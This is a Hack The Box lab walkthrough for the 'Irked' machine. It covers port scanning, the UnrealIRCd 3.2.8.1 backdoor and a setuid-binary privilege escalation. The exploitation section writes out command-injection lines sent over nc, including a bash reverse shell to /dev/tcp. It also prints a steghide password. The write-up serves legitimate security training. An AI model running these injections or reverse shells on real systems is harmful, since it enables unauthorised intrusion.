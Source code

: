 # Irked Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

### Nmap:

``nmap -p- -sV -oA fullirked 10.10.10.117``

### PORT      STATE SERVICE VERSION

> 22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
> 
> 80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
> 
> 111/tcp   open  rpcbind 2-4 (RPC #100000)
> 
> 6697/tcp  open  irc     UnrealIRCd
> 
> 8067/tcp  open  irc     UnrealIRCd
> 
> 34714/tcp open  status  1 (RPC #100024)
> 
> 65534/tcp open  irc     UnrealIRCd

# ${{\color{purple}Initial Foothold}}\ $


### - ``gobuster dns -d irked.htb -t 25 -w /opt/seclists/Discovery/DNS/subdomains-top1million-20000.txt``
### - ``curl http://10.10.10.117/irked.jpg -o irked.jpg``
### - ``exiftool irked.jpg`` modification Date/Time : 2018
### - IRC is almost working ! :white_check_mark:
### - ``vi /etc/hosts irked.htb``


# ${{\color{purple}Exploitation}}\ $

- Google RFC IRC to find out how to chat with the service.
> Watch the Connections Registration section 

``nc -nvvvv 10.10.10.117 6697``

``PASS blabla``

``NICK blabla``

``USER blabla blabla comment :haha``

![irked2](https://user-images.githubusercontent.com/123066149/218293454-a38c0587-14e4-4e81-a2da-50810f96a917.PNG)

There is a backdor on UnrealIRCd 3.2.8.1 I test it with my hands :

`` tcpdump -i tun0 icmp ``

`` echo "AB; ping -c 1 10.10.X.X" | nc 10.10.10.117 6697``

![image](https://user-images.githubusercontent.com/123066149/218293806-b39334d6-eef7-440d-ac51-dfeea706df36.png)

``searchsploit UnrealIRCd 3.2.8.1``

### I had tested the exploit in perl and it didn't work

### So I looked for a poc of the metasploit exploit 

- Google UnrealIRCd 3.2.8.1 - Backdoor Command Execution poc github

``python exploit.py -payload python 10.10.10.117 6697``

### or 

``echo "AB; bash -c 'bash -i >& /dev/tcp/10.10.X.X/444 0>&1'" | nc 10.10.10.117 6697``


# ${{\color{purple}Privilege Escalation}}\ $

``cat .bash history | less``

``LinEnum.sh``

### I found a password in a file to extract data from an image 

``steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSssh``

![image](https://user-images.githubusercontent.com/123066149/218293960-9fbf5461-e560-4468-9b03-0201e93a4093.png)

![image](https://user-images.githubusercontent.com/123066149/218293966-b015a4ab-b57c-4749-92b9-11b3c7b70899.png)

### This was the password of user djmardov

![image](https://user-images.githubusercontent.com/123066149/218294030-6e7f4925-fd3b-415c-b2f0-96852ca4fe0e.png)

### There is a setuid binary that I am not used to see : viewusers

``base64 -w0 /usr/bin/viewuser``

![image](https://user-images.githubusercontent.com/123066149/218294127-8d50efda-8dfb-491a-8143-28f15e49722f.png)

### Kali machine 

``ltrace ./viewuser``

![irked3](https://user-images.githubusercontent.com/123066149/218294249-fc72f797-8706-4145-abba-b7ce18ce0b83.PNG)

``#! /bin/bash``

``echo "Sending a ROOT SHELL"``

``/bin/bash``

![image](https://user-images.githubusercontent.com/123066149/218294291-91d0b3a8-9aa2-48e1-96f0-18c464ba9c4d.png)

![irked5](https://user-images.githubusercontent.com/123066149/218294529-a6e3881f-0928-42d4-a5b4-a662a83391b2.PNG)

# ${{\color{purple}Points of Improvement}}\ $

* Use the protocol RFC if I don't know how to use it 

















